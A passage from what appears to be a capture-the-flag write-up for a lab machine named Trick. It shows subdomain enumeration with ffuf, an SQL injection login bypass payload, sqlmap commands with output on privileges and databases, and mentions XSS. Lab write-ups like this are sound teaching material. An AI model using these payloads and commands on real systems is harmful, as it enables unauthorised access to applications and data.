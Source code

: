 Odd, a lot of 200s on things that should redirect or require auth. I tossed the notable ones below.


![preprod-payroll login page]({{ page.img }}_preprod_login_page.png)

![preprod-payroll user.php]({{ page.img }}_preprod_user_php.png)


Those buttons don't do anything, admin username might be useful. No password leak or other information leak. Next thing we have is the login portal to fuzz around with.


![preprod-payroll login sqli]({{ page.img }}_burpsuite_sqli.png)


Well that bodes well. I toss in `Enemigosss' or 1=1#` and get access to the admin account. While running sqlmap I also found some things that I'll toss here but didn't find a use for:

```bash
sqlmap -r sql.req --privileges

'remo'@'localhost'
[*] %remo% [1]:
    privilege: FILE

sqlmap -r sql.req --dbs

[*] information_schema
[*] payroll_db
```

![preprod-payroll admin dashboard]({{ page.img }}_preprod_admin_dashboard.png)

To save some reading and time I fuzz around, try to inject payloads and find out that at worst this application is vulnerable to XSS, but since there's no useful javascript the site makes use of the XSS here would only be good for grabbing cookies which means nothing when we are already admin (potentially the only account).


![preprod-payroll depatment xss]({{ page.img }}_preprod_depatment_xss.png)


Given the naming scheme of this subdomain it is logical to conclude that there might be other preprod- subdomains that this fake organization makes use of. I ffuf for anything with the prefix and behold our next place to test: preprod-marketing

```bash
ffuf -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://trick.htb -H "Host: preprod-FUZZ.trick.htb" -mc 200,401 -fs 5480

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://trick.htb
 :: Wordlist         : FUZZ: /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: preprod-FUZZ.trick.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
```